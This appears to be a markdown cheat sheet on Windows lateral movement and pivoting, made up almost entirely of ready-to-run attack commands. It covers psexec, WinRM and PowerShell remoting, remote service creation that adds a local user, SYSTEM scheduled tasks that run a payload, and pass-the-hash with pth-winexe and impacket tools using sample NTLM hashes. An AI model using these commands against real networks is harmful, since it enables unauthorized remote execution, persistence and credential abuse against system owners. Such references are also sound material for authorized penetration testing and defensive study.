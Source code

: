 # Lateral Movement and Pivoting



## Table of contents

##### ➤ Windows - Spawning a process remotely
* [1. PSEXEC](#Psexec)
* [2. Remote Process Creation Using WinRM](#Remote-Process-Creation-Using-WinRM)
* [3. Remotely Creating Services Using sc](#Remotely-Creating-Services-Using-SC)
* [4. Creating Scheduled Tasks Remotely](#Creating-Scheduled-Tasks-Remotely)

##### ➤ Windows - Pass the hash
* [1. Passing the hash method](#Passing-the-hash-method)

``` ```
``` ```
## Psexec

- Ports: 445/TCP (SMB)
- Required Group Memberships: Administrators
- Part of sysinternals 

#### Commands
```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

``` ```
``` ```
## Remote Process Creation Using WinRM

- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Remote Management Users

#### Using winrs.exe :
```
winrs.exe -u:Administrator -p:Mystrongpassword -r:target cmd
```

#### Using Powershell directly :

###### 1. create a PSCredential object :
```
$username = 'Administrator';
$password = 'Mystrongpassword';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
````

###### 2.A. Create an interactive session using Enter-PSSession cmdlet :
```
Enter-PSSession -Computername TARGET -Credential $credential
```

###### 2.B Run only a specific command 
```
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```


``` ```
``` ```
## Remotely Creating Services Using sc

- Ports:
  -  135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes)
- Required Group Memberships: Administrators

#### 1. create and start a service named "SERVICENAME" using the following commands:
```
sc.exe \\TARGET create SERVICENAME binPath= "net user USERNAME PASSWORD /add" start= auto
sc.exe \\TARGET start SERVICENAME
```
***Notes :*** The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

####  2. Stop and delete the service
```
sc.exe \\TARGET stop SERVICENAME
sc.exe \\TARGET delete SERVICENAME
```

``` ```
``` ```
## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. 

#### Create a task named MYTASK, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "MYTASK" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/2023 /st 00:00 
schtasks /s TARGET /run /TN "MYTASK" 
```

***Notes :*** We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway. Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.


#### Delete the scheduled task
```
schtasks /S TARGET /TN "MYTASK" /DELETE /F
```



``` ```
``` ```
## PTH - Pass the hash methods

##### ➤  PTH-winexe

Install
```
sudo apt install passing-the-hash
```

Pass the hash
```
#From the kali linux machine
pth-winexe -U 'admin%hash' //10.0.0.1 cmd.exe
pth-winexe -U 'admin%ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a //10.0.0.1 cmd.exe
```

**Note:** Remember the full hash includes both the LM and NTLM hash, separated by a colon

##### ➤  smbclient.py (impacket)
```
python /opt/impacket/examples/smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/admin@10.0.0.1
```

##### ➤  PTH-smbclient
```
pth-smbclient -U ignite/adminr%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //10.0.0.1/c$
```

##### ➤  psexec.py (impacket)
```
python3 psexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```
